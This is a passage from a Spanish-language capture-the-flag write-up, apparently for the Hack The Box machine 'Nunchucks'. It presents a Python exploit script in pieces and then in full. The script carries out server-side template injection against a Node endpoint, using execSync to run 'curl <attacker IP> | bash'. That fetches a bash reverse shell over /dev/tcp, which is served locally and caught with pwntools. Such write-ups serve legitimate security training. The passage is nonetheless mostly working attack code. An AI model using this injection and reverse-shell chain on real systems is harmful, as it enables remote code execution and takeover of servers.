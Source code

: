 ```python
    post_data = { 
        "email": payload
     }
    print("[+] Explotando el SSTI")
    r = s.post(nunIP,data=post_data,verify=False)
```
La última función corresponde a la del servidor http:

```python
def http_server():

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")
```
Finalmente, tenemos el main:

```python
if __name__ == '__main__':

    print("[!] Recuerda agregar el dominio nunchucks.htb y store.nunchucks.htb a tu /etc/hosts.")
    html_payload()
    sleep(2)   
    http_server()
    threading.Thread(target=ssti, args=()).start()
    shell = listen(1234,timeout=20).wait_for_connection()
    shell.interactive()
```

Acá tenemos las llamadas a las funciones.

El código completo es el siguiente:

```python
import requests,subprocess,socket
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 2:
    print(f'[!] Uso: python3 {sys.argv[0]} "Tu IP"\n' )
    sys.exit(1)

ipHost = sys.argv[1]
nunIP = 'https://store.nunchucks.htb/api/submit'
s = requests.Session()

def html_payload():

    with open("index.html","w") as file:
        Shebang = "#!/bin/bash\n"
        payload =f'bash -i >& /dev/tcp/{ipHost}/1234 0>&1'
        file.write(Shebang)
        file.write(payload)

def ssti():
    payload = """ {\{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl %s | bash')\")()}} """ % ipHost
```